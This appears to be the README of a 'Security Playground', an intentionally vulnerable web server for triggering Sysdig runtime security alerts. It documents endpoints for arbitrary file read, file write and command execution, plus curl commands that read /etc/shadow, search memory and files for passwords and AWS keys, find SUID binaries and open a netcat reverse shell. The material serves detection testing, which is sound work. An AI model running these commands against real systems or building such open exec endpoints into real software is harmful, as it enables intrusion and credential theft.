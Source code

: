 # Security Playground

The security playground is a HTTP web server that alllows you to simulate various security breaches in runtime.

## Installation

Use the deployment.yaml to deploy this to your kubernetes cluster, it will deploy
- Deployment with 1 Replica of the pod
- LoadBalancer Service to expose the web server on port 80/HTTP

```bash
kubectl apply -f kubernetes-manifests/deployment.yaml
```

Or run it locally in using docker

```bash
docker run --rm -p 8080:8080 ghcr.io/andrewd-sysdig/security-playground:latest
```

## Usage

The HTTP API exposes three endpoints to interact with the system.

### Reading a file

You can read a file using just the URL. This will return the content of the /etc/shadow file.

```bash
curl http://<webserver>/etc/shadow
```

### Writing a file

You can write to a file using the URL and POSTing the content. This will write to /bin/hello the hello-world string.

```bash
curl -X POST http://<webserver>/bin/hello -d 'content=hello-world'
```

### Executing a command

You can execute a command using the /exec endpoint and POSTing the command. This will capture and return the STDOUT of the command executed.

```bash
curl -X POST http://<webserver>/exec -d 'command=ls -la'
```

## Library of curl commands to trigger various Sysdig Events

Set the WEBSERVERIP env variable to be the IP of your target (the pod/service)

```bash
export WEBSERVERIP=192.168.1.15
```

### Sysdig Managed Policy: Sysdig Runtime Threat Detection (Severity: High)

**Sysdig Event:** Reconnaissance attempt to find SUID binaries
**Command:**
```
curl -X POST http://$WEBSERVERIP/exec -d 'command=find / -perm -u=s -type f 2>/dev/null'
```
**Sysdig Event:** Dump memory for credentials
**Command:**
```
curl -X POST http://$WEBSERVERIP/exec -d 'command=grep passwd /proc/1/mem'
```
**Sysdig Event:** Find AWS Credentials
**Command:**
```
curl -X POST http://$WEBSERVERIP/exec -d 'command=grep aws_access_key_id /tmp/'
```
**Sysdig Event:** Netcat Remote Code Execution in Contianer
**Command:**
```
curl -X POST http://$WEBSERVERIP/exec -d 'command=nc -c bash 10.0.0.1 4242'
```

### Sysdig Managed Policy: Sysdig Runtime Notable Events (Severity: Medium)

**Sysdig Event:** Read sensitive file untrusted 
**Command:**
```
curl http://$WEBSERVERIP/etc/shadow
```